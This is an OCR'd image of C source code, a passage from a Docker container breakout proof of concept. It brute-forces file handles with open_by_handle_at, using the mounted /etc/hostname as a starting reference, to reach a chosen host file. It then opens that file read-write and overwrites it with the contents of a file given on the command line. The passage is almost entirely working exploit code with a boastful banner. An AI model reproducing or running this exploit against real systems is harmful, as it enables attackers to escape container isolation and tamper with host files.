 ```c
      if ((i % (1 << 20)) == 0)
        fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de -> d_name, i);
      if (open_by_handle_at(bfd, (struct file_handle * ) & outh, 0) > 0) {
        closedir(dir);
        close(fd);
        dump_handle( & outh);
        return find_handle(bfd, path, & outh, oh);
      }
    }
  }
  closedir(dir);
  close(fd);
  return 0;
}
int main(int argc, char * argv[]) {
  char buf[0x1000];
  int fd1, fd2;
  struct my_file_handle h;
  struct my_file_handle root_h = {
    .handle_bytes = 8,
    .handle_type = 1,
    .f_handle = {
      0x02,
      0,
      0,
      0,
      0,
      0,
      0,
      0
    }
  };
  fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"
    "[***] The tea from the 90's kicks your sekurity again. [***]\n"
    "[***] If you have pending sec consulting, I'll happily [***]\n"
    "[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");
  read(0, buf, 1);
  // get a FS reference from something mounted in from outside
  if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
    die("[-] open");
  if (find_handle(fd1, argv[1], & root_h, & h) <= 0)
    die("[-] Cannot find valid handle!");
  fprintf(stderr, "[!] Got a final handle!\n");
  dump_handle( & h);
  if ((fd2 = open_by_handle_at(fd1, (struct file_handle * ) & h, O_RDWR)) < 0)
    die("[-] open_by_handle");
  char * line = NULL;
  size_t len = 0;
  FILE * fptr;
  ssize_t read;
  fptr = fopen(argv[2], "r");
  while ((read = getline( & line, & len, fptr)) != -1) {
    write(fd2, line, read);
  }
  printf("Success!!\n");
  close(fd2);
  close(fd1);
  return 0;
}
```
